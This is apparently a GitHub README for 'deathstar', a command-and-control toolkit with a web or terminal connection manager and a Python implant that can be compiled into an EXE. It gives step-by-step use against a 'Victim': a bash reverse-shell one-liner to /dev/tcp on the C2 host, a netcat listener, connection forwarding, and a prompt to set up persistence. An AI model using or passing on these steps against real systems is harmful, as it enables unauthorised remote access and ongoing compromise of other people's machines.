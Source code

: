 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.


![screen](https://github.com/user-attachments/assets/7de184fa-cd0b-4cbf-b701-9f505a77cb2a)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Start C2
`python3 deathstar-web.py`

or 

`python3 deathstar-term.py`

# Open link in web browser

```firefox 127.0.0.1:5000```

# Have Victim connect to C2 
Linux / MacOS

`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

or

`./stardestroyer.py`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.

